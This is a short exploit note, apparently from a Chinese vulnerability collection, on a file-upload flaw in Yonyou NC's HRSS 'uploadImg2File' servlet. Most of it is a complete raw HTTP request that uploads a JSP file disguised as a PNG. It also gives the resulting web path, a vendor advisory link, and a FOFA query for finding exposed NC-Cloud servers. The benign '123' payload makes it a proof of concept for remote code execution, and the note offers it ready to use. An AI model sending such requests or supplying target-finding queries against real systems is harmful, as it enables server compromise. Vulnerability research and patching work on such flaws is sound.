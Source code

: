 #### UploadImg2File

接口：hotwebs/hrss/WEB-INF/web.xml

modules\hrss\lib\pubhrssbusiness.jar!\nc\bs\hrss\hi\UploadImg2File.class

```
POST /hrss/servlet/uploadImg2File HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWMziTyR879iBoZhR
Content-Length: 561

------WebKitFormBoundaryWMziTyR879iBoZhR
Content-Disposition: form-data; name="txtFileName"; filename="21.jsp"
Content-Type: image/png

<%out.println("123");%>
------WebKitFormBoundaryWMziTyR879iBoZhR--
```

路径：/hrss/rm/../uploads/202309231201111695398471885.jsp

https://security.yonyou.com/#/noticeInfo?id=238

## NC-Cloud

fofa：app="用友-NC-Cloud"

